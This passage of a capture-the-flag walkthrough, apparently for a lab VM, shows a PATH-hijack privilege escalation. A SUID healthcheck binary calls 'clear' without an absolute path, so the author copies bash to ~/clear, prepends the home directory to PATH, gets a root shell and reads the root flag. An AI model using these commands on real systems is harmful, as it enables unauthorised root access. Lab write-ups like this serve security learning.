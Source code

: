 ~~~
/sbin/pam_timestamp_check
/bin/ping
/bin/fusermount
/bin/su
/bin/mount
/bin/umount
~~~

## Privilege escalation

Using `strings`, we can notice that a serie of commands is called by the program, without absolute paths:

~~~
[medical@localhost /]$ strings /usr/bin/healthcheck
strings /usr/bin/healthcheck

[REDACTED]

clear ; echo 'System Health Check' ; echo '' ; echo 'Scanning System' ; sleep 2 ; ifconfig ; fdisk -l ; du -h
~~~

We can take advantage of this vulnerability to make a local copy of `/bin/bash` to `~/clear` and add our home directory to the `PATH` variable. That way, the `clear` command will actually execute `bash` as root.

~~~
[medical@localhost ~]$ which bash
which bash
/bin/bash
[medical@localhost ~]$ cp /bin/bash clear
cp /bin/bash clear
[medical@localhost ~]$ export PATH=/home/medical:$PATH
export PATH=/home/medical:$PATH
[medical@localhost ~]$ /usr/bin/healthcheck
/usr/bin/healthcheck
[root@localhost ~]# id
id
uid=0(root) gid=0(root) groups=0(root),7(lp),19(floppy),22(cdrom),80(cdwriter),81(audio),82(video),83(dialout),100(users),490(polkituser),500(medical),501(fuse)
~~~

## Root flag

~~~
[root@localhost ~]# cd /root
cd /root
[root@localhost root]# cat root.txt
cat root.txt
██    ██  ██████  ██    ██     ████████ ██████  ██ ███████ ██████      ██   ██  █████  ██████  ██████  ███████ ██████  ██ 
 ██  ██  ██    ██ ██    ██        ██    ██   ██ ██ ██      ██   ██     ██   ██ ██   ██ ██   ██ ██   ██ ██      ██   ██ ██ 
  ████   ██    ██ ██    ██        ██    ██████  ██ █████   ██   ██     ███████ ███████ ██████  ██   ██ █████   ██████  ██ 
   ██    ██    ██ ██    ██        ██    ██   ██ ██ ██      ██   ██     ██   ██ ██   ██ ██   ██ ██   ██ ██      ██   ██    
   ██     ██████   ██████         ██    ██   ██ ██ ███████ ██████      ██   ██ ██   ██ ██   ██ ██████  ███████ ██   ██ ██ 
                                                                                                                          
                                                                                                                          
Thanks for Playing!

Follow me at: http://v1n1v131r4.com
~~~